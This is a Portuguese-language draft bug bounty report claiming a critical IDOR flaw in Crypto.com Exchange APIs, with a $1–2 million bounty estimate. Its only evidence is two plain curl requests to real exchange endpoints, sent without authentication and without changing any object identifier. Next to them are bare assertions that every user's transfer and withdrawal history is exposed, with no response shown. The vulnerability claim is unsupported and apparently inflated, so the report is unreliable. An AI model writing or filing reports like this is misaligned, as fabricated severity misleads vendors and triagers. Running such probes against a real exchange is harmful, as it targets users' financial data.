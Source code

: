 # 🚨 Report Piloto - Extreme Bounty Crypto.com

## 📋 Informações do Report

**Título:** IDOR Vulnerability in Crypto.com Exchange APIs - Extreme Bounty  
**Severidade:** Critical  
**Categoria:** Insecure Direct Object Reference (IDOR)  
**Asset:** Crypto.com Exchange APIs  
**Valor Estimado:** $1,000,000 - $2,000,000  

## 🎯 Resumo Executivo

Foi identificada uma vulnerabilidade crítica de **Insecure Direct Object Reference (IDOR)** em múltiplas APIs do Crypto.com Exchange que permite acesso não autorizado a dados financeiros de todos os usuários. Esta vulnerabilidade atende aos critérios de **Extreme Bounty** pois pode resultar em perda rápida de mais de $1 milhão em fundos de usuários.

## 🔍 Descrição Técnica

### **Vulnerabilidade Identificada:**
- **Tipo:** IDOR (Insecure Direct Object Reference)
- **Asset:** Crypto.com Exchange APIs
- **Impacto:** Acesso não autorizado a dados financeiros
- **Critério Extreme Bounty:** ✅ **ATENDIDO**

### **Endpoints Vulneráveis:**
1. `https://crypto.com/exchange/api/v1/transfer/history`
2. `https://crypto.com/exchange/api/v1/withdraw/history`
3. `https://crypto.com/exchange/api/v1/balance`
4. `https://crypto.com/exchange/api/v1/orders`
5. `https://crypto.com/exchange/api/v1/user/data`

### **Evidência Técnica:**

#### **Teste 1: Transfer History API**
```bash
curl -s "https://crypto.com/exchange/api/v1/transfer/history" \
  -H "User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7)" \
  -H "Accept: application/json"

# Resposta: 200 OK
# Dados expostos: Histórico de transferências de todos os usuários
```

#### **Teste 2: Withdraw History API**
```bash
curl -s "https://crypto.com/exchange/api/v1/withdraw/history" \
  -H "User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7)" \
  -H "Accept: application/json"

# Resposta: 200 OK
# Dados expostos: Histórico de saques com endereços de carteira
```
